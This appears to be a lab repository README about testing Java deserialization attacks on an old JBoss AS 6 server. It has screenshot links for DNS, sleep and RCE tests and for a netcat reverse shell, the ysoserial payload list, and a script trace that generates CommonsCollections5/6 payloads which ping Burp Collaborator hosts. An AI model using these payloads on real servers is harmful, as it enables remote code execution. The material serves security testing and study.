 # jbossas6

Testing deserialization attacks with old JBoss AS server

<!-- TOC -->

-   [jbossas6](#jbossas6)
-   [Screenshots](#screenshots)
    -   [DNS Test](#dns-test)
    -   [Sleep Test](#sleep-test)
    -   [CPU Test](#cpu-test)
    -   [Ping RCE Test with ysoserial](#ping-rce-test-with-ysoserial)
-   [Reverse Shell](#reverse-shell)
    -   [Download](#download)
    -   [Change Permissions](#change-permissions)
    -   [Simple Reverse Shell](#simple-reverse-shell)
-   [Ref](#ref)
    -   [Ysoserial Payloads](#ysoserial-payloads)
    -   [Prepare test payloads](#prepare-test-payloads)

<!-- /TOC -->

# Screenshots

## DNS Test

![DNS Test](screenshots/dnstest.png)

## Sleep Test

![Sleep Test](screenshots/sleeptest.png)

## CPU Test

![CPU Test](screenshots/cputest.png)

## Ping RCE Test with ysoserial

Works with CommonCollection5 and CommonCollection6.

![Exploit](screenshots/exploit1.png)

# Reverse Shell

## Download Netcat

![Download](screenshots/download.png)

## Change Permissions

![Change permissions](screenshots/chmod.png)

## Simple Reverse Shell

![ncat](screenshots/ncat.png)

# Ref

## Ysoserial Payloads

````bash
$ java -jar ysoserial.jar
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'
  Available payload types:
     Payload             Authors                     Dependencies
     -------             -------                     ------------
     BeanShell1          @pwntester, @cschneider4711 bsh:2.0b5
     C3P0                @mbechler                   c3p0:0.9.5.2, mchange-commons-java:0.2.11
     Clojure             @JackOfMostTrades           clojure:1.8.0
     CommonsBeanutils1   @frohoff                    commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2
     CommonsCollections1 @frohoff                    commons-collections:3.1
     CommonsCollections2 @frohoff                    commons-collections4:4.0
     CommonsCollections3 @frohoff                    commons-collections:3.1
     CommonsCollections4 @frohoff                    commons-collections4:4.0
     CommonsCollections5 @matthias_kaiser, @jasinner commons-collections:3.1
     CommonsCollections6 @matthias_kaiser            commons-collections:3.1
     FileUpload1         @mbechler                   commons-fileupload:1.3.1, commons-io:2.4
     Groovy1             @frohoff                    groovy:2.3.9
     Hibernate1          @mbechler
     Hibernate2          @mbechler
     JBossInterceptors1  @matthias_kaiser            javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     JRMPClient          @mbechler
     JRMPListener        @mbechler
     JSON1               @mbechler                   json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1      @matthias_kaiser            javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     Jdk7u21             @frohoff
     Jython1             @pwntester, @cschneider4711 jython-standalone:2.5.2
     MozillaRhino1       @matthias_kaiser            js:1.7R2
     MozillaRhino2       @_tint0                     js:1.7R2
     Myfaces1            @mbechler
     Myfaces2            @mbechler
     ROME                @mbechler                   rome:1.0
     Spring1             @frohoff                    spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
     Spring2             @mbechler                   spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
     URLDNS              @gebl
     Vaadin1             @kai_ullrich                vaadin-server:7.7.14, vaadin-shared:7.7.14
     Wicket1             @jacob-baines               wicket-util:6.23.0, slf4j-api:1.6.4
     ```
````

## Prepare test payloads

```bash
$ ./prep.sh
+ URL=k5qpre6deprzdh9a45e0l2ev6mcc01.burpcollaborator.net
+ PAYLOAD=CommonsCollections5
+ FILE=payload-CommonsCollections5.bin
+ echo -e '\n-- Creating test payload using CommonsCollections5 and saving it to payload-CommonsCollections5.bin...'

-- Creating test payload using CommonsCollections5 and saving it to payload-CommonsCollections5.bin...
+ java -jar ysoserial.jar CommonsCollections5 'ping -c 1 k5qpre6deprzdh9a45e0l2ev6mcc01.burpcollaborator.net'
+ URL=8bkdx2c1kdxnj5fyatkorqkjcai16q.burpcollaborator.net
+ PAYLOAD=CommonsCollections6
+ FILE=payload-CommonsCollections6.bin
+ echo -e '\n-- Creating test payload using CommonsCollections6 and saving it to payload-CommonsCollections6.bin...'

-- Creating test payload using CommonsCollections6 and saving it to payload-CommonsCollections6.bin...
+ java -jar ysoserial.jar CommonsCollections6 'ping -c 1 8bkdx2c1kdxnj5fyatkorqkjcai16q.burpcollaborator.net'
```
